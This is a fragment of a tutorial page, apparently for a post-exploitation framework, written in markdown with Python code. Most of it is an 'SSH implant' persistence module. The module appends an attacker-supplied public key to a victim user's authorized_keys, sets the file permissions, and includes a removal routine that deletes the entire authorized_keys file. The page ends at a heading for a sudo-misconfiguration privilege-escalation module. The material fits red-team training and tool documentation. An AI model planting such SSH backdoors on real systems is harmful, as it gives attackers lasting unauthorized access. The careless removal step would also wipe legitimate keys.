 ```python
            home_result = session.platform.run(
                ["getent", "passwd", user], 
                capture_output=True, 
                text=True
            )
            home_path = home_result.stdout.split(':')[5]
        except:
            # Fallback to common location
            home_path = f"/home/{user}"
        
        ssh_dir = os.path.join(home_path, ".ssh")
        auth_keys = os.path.join(ssh_dir, "authorized_keys")
        
        # Create .ssh directory if it doesn't exist
        session.platform.run(["mkdir", "-p", ssh_dir], check=True)
        
        # Set proper permissions
        session.platform.run(["chmod", "700", ssh_dir], check=True)
        
        # If no SSH key path provided, generate one locally
        if not ssh_key_path:
            # For this example, we'll use an existing SSH key from local system
            # In practice, you'd want to generate or have the attacker provide their public key
            session.print("[red]Error: SSH key path not provided[/red]")
            return
        
        # Read the SSH key and append to authorized_keys
        with open(ssh_key_path, 'r') as f:
            ssh_key = f.read().strip()
        
        # Append the SSH key to the authorized_keys file
        with session.platform.open(auth_keys, "a") as f:
            f.write(ssh_key + "\n")
        
        # Set proper permissions
        session.platform.run(["chmod", "600", auth_keys], check=True)
        
        yield SSHImplant(self.name, user, auth_keys)
    
    def remove(self, session, fact):
        # Remove the SSH key (this is a simplified version)
        # You'd want to be more careful about removing just the specific key
        session.print(f"[yellow]Removing SSH key implant at {fact.path}[/yellow]")
        session.platform.run(["rm", fact.path], check=True)
```

## Privilege Escalation Modules {#privilege-escalation-modules}

### Example 4: Sudo Misconfiguration Detection Module
